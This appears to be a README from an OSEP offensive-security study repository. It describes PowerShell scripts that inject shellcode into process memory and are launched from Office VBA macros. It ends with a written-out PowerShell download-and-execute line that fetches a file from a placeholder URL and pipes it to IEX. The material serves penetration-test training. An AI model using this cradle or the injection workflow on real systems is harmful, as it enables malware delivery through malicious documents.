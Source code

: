 ### PowerShell

In this repository we have some scripts that describes the process to execute a shellcode in PowerShell.

- In [InvokeWin32APIs.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/InvokeWin32APIs.ps1), we learn how to import some Win32 APIs over C# code. 
- In [ShellCodeLauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/ShellCodeLauncher.ps1), we implement that Win32 APIs over our current powershell session and use it to copy our shellcode in memory and inyect it over the execution flow of the current process.
- In [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) we modify some parts of the script before to be succesfully launched in a VBA macro.

The method to use correctly this script is to use it with [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1), the str var must contian the follwoing line:

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<OUTFILE>') | IEX
```
